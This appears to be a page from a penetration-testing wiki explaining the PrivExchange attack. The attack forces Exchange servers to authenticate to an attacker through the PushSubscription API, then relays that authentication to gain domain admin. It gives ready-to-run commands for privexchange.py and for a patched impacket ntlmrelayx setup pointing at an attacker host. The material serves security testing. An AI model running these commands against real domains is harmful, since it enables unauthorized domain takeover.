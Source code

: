# PrivExchange \(PushSubscription abuse\)

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. As Exchange servers usually have high privileges in a domain \(i.e. `WriteDacl`, see [Abusing ACLs](../abusing-aces/)\), the forced authentication can then be relayed and abused to obtain domain admin privileges \(see [NTLM Relay](../abusing-lm-and-ntlm/ntlm-relay.md) and [Kerberos Unconstrained Delegations](../abusing-kerberos/delegations.md#unconstrained-delegations-kud)\).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) \(Python\) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP s2012exc.testsegment.local
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/ntlm-relay.md) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

